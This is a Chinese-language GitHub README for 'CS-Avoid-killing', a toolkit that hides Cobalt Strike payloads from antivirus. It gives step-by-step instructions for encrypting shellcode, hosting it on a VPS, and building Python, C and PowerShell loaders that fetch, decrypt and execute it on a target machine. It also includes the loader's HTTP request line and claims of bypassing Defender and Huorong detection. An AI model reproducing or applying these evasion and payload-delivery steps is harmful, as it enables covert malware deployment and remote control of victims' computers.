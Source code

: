 # CS-Avoid-killing
CS免杀,包括python版和C版本的(经测试Python打包的方式在win10上存在bug,无法运行,Win7测试无异常

V1.0: 目前测试可以过Defender/火绒的静杀+动杀,360还没测= =不想装360全家桶了,可以自行测试

下一步开发计划:

V1.5: 加入C版本CS免杀(已完成)

V1.7:加入Powershell的免杀(已完成)

V2.0: ~~开发出UI界面~~
V2.0: 开发成在线免杀平台(已完成)
PS: 在实际使用中发现图形化界面不利于和其他工具结合,相比之下命令行的方式更具有扩展性
PS: 关于自己写的在线免杀平台,暂不考虑开源,主要是觉得目前的技术还比较薄弱,如果有师傅想体验可以联系我

V3.0: 想办法结合更多免杀技术(想去研究下进程注入/文件捆绑,不知道免杀效果怎样)

## 依赖环境

python: 

- python2
- pyinstaller
- requests

C: VS2019默认就够了

Powershell: Win10上测试没有问题,也就是ps5.1,更低版本未测试

## 安装

`git clone https://github.com/Gality369/CS-Avoid-killing.git`

## 使用

1. 先通过CS生成C格式的shellcode:` Attacks -> packages -> Payload Generator `选择一个listener然后生成一个C的shellcode(其实就是二进制代码)

2. Python版:

   > 1. 将生成的shellcode填入generator.py的shellcode变量中,填入一个Key,用于后续的RC4加密
   > 2. 运行generator.py,生成的payload自动保存在payload.txt中.
   > 3. 将payload.txt上传到你的VPS中,后续生成的加载器会从VPS中获取加密shellcode并在本地解密后执行
   > 4. 将在VPS上的payload路径填入PyLoader.py的url变量中,填入你刚刚设置的Key
   > 5. 用`python pyinstaller.py -F -w PyLoader.py`打包文件,可执行文件在pyshellcode文件夹下的dist中,双击运行可以看到主机上线

3. C版本:

   > 1. 按要求填入你自己的Key,shellcdoe长度和shellcode,执行
   > 2. 将第一行的数字复制进Loader的Base64ShellLen字段中,将第二行生成的加密shellcode保存在payload.txt文件中并将其放在服务器上(~~如果不叫这名或者不在跟路径,需要自己改`char request[1024] = "GET /RC4Payload32.txt HTTP/1.1\r\nHost:";`中的路径)
   > 在path中填入可以访问到payload的路径即可(Ex: /test/payload.txt)
   > 3. 在Loader中填入自己的Key和VPS的IP,编译
   > 4. 执行编译出的exe,CS上线
   
4. Powershell版本:

   > 1. 在CS中生成Powershell版本的payload.ps1
   > 2. Python3 PSconfusion.py payload.ps1 AVpayload.ps1
   > 3. 经测试能过目前所有杀软的静杀,动杀的话,由于CS中有些模块不免杀,所以加载这些模块时可能会触发动杀,这个以后再研究怎么绕过

## 注意

1. pyinstaller安装细节

   > 最后一个支持python2的版本是3.6(最新版pyinstall不再支持python2)
   >
   > 网址:https://github.com/pyinstaller/pyinstaller/releases
   >
   > 需要安装pywin32:https://github.com/mhammond/pywin32

2. 目标是什么环境就在什么环境上打包,否则可能会出现无法上线的情况,不推荐使用py3对项目进行改造,ctypes对py3的支持不太好,会有些莫名其妙的bug

3. 经过测试,C版本在X86Debug模式编译下无任何问题,Release模式下会存在莫名bug,在某些电脑上无法正常上线,请根据需求自行测试

4. 编译选项不要选择动态编译,否则可能会因为目标靶机上缺少相应dll而无法运行.

5. 加载ps脚本的方式这里不做讨论,有师傅已经总结的非常好了,请自行百度
